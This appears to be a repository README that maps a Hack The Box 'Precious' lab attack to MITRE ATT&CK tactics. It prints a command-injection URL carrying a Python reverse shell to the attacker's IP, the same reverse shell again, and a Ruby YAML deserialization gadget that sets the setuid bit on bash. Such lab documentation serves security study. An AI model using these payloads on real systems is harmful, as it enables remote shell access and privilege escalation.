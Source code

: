 # Cyber4ML_Framework application in "Precious" HTB machine.

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.27|10.10.11.189|

## Documentation

Documentation of the attack: [Precious Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Precious/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command |
| - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) |
| Execution | Exploitation for Client Execution | Unix Shell | (2) |
| Persistence | Valid Accounts | Default Accounts | (3) |
| Privilege Escalation | Exploitation for Privilege Escalation | - | (4) |

#### Commands
- (1)
```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
- (2)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
- (3)
```
ssh henry@10.10.11.189
```
- (4)
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve
```

## Network Analysis

Pcap file of the attack:

## Log Analysis
